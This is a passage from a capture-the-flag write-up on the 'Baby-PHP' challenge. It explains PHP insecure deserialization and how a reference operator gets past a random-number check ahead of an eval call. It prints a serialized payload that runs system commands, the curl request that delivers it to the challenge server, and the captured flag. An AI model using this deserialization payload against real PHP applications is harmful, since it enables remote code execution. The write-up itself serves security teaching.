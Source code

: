 In here, the magic method will **check if properties `guess` and `random_number` are the same for 100 times**. If the check is passed, it'll call `eval` with property `command`. However, property `guess` will be generated differently in every loop via PHP function [`rand`](https://www.php.net/manual/en/function.rand.php) which generates a random integer.

Can we bypass that check? Well, yes. Since PHP is written in C, some features are similiar to C. In both PHP and C, they have something called [reference operator](https://www.php.net/manual/en/language.oop5.references.php) `&`, which means the variable's value is refered to the referenced variable:

```php
class A {
    public $foo = 1;
}

$b = new A;
$c = &$b; // $c === $b, they are the same
```

Therefore, we can set property `random_number` is a reference to the `guess` property, thus the check is bypassed.

## Exploitation

Armed with above information, we can craft the following serialized object string to gain RCE!

<details><summary><strong>payload.php</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/HKUST-Firebird-CTF-Competition-2025/Web/Baby-PHP)-[2025.01.13|17:31:31(HKT)]
└> php payload.php
O:1:"A":1:{s:5:"class";O:1:"B":3:{s:7:"command";s:23:"system('cat flag.php');";s:5:"guess";i:1;s:13:"random_number";R:4;}}
[...]
```

```shell
┌[siunam♥Mercury]-(~/ctf/HKUST-Firebird-CTF-Competition-2025/Web/Baby-PHP)-[2025.01.13|17:33:41(HKT)]
└> curl --get http://phoenix-chal.firebird.sh:36010/ --data-urlencode "payload=O:1:\"A\":1:{s:5:\"class\";O:1:\"B\":3:{s:7:\"command\";s:23:\"system('cat flag.php');\";s:5:\"guess\";i:1;s:13:\"random_number\";R:4;}}"
<?php
$flag = "firebird{The_challenge_of_addressing_PHP_bugs_is_exacerbated_by_the_languages_flexibility_and_dynamic_nature_which_introduces_a_myriad_of_potential_pitfalls_and_edge_cases_that_can_be_difficult_to_anticipate_and_mitigate}"; 
echo "flag{You_win_This_is_the_flag}";
?>
```

- **Flag: `firebird{The_challenge_of_addressing_PHP_bugs_is_exacerbated_by_the_languages_flexibility_and_dynamic_nature_which_introduces_a_myriad_of_potential_pitfalls_and_edge_cases_that_can_be_difficult_to_anticipate_and_mitigate}`**

## Conclusion

What we've learned:

1. PHP insecure deserialization & bypass via reference operator